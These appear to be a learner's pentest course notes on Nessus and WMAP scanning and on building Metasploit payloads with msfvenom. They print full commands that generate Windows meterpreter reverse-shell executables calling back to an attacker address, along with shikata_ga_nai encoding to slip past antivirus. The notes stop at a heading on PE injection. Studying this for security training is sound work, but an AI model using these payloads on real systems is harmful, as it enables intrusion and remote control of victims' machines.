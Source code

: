   ## Vulnerability Scanning with Nessus and MSF
  - Nessus automates the process of identifying vulnerabilities and also provides us with further information such as the corresponding cve code
  - We used nessus essentials (limited to 16 ip's)
  - Skipped this course (i'll try that myself..)
  
  
  ## Vulnerability Scanning with WMAP
  - load wmap
  - Add a site (ip) with wmap_sites -a x.x.x.x
  - Add a target url with wmap_targets -t http://x.x.x.x
  - wmap_run -t (this shows all available msf modules)
  - wmap_run -e (perform the vulnerability check)
  
  ## PAYLOADS
  ### Generating payloads with msfvenom
  - A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed
  - Client-side attacks typically utilize various social engineering techniques like generationg malicious documents or portable executables (PEs)
  - Given this vector involves transferring a malicious payload to the client, we need to be aware of AV detection!
  -  we will use msfvenom as a payload generator! we will focus on a meterpreter payload...
  
  - when specifying a payload with msfvenom, we usually start with the operating system, the architecture and then the protocol to connect back
  - staged payload uses "/" between meterpreter and protocol, "_" between meterpreter and protocol is a non-staged payload!
  - e.g. windows/x64/meterpreter/reverse_tcp is a staged payload
  - e.g. windows/x64/meterpreter_reverse_tcp is a non-staged payload
  
  - to generate a payload with msfvenm, you usually have to specify this:
    - msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f exe > /home/felix/Desktop/payloadx86.exe
    - this generates a payload for a 32-bit windows machine with the output format exe that connects back to x.x.x.x on port 1234
    
  - before you run this payload, set up the msf multi/handler module!! AND SET THE RIGHT PAYLOAD TYPE!
  
  ### Encoding Payloads with msfvenom
  - encoding helps to avoid signature av detection!
  - x86/shikata_ga_nai encoder for windows and linux executables is excellent! (this will work on 64 and 32 bit!)
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -e x86/shikata_ga_nai -f exe > /home/felix/encoded.exe
  - you can do more iterations of encoding by specifying "-i 10" (after LPORT) 
  
  ### Injecting Payloads into windows portable executables
  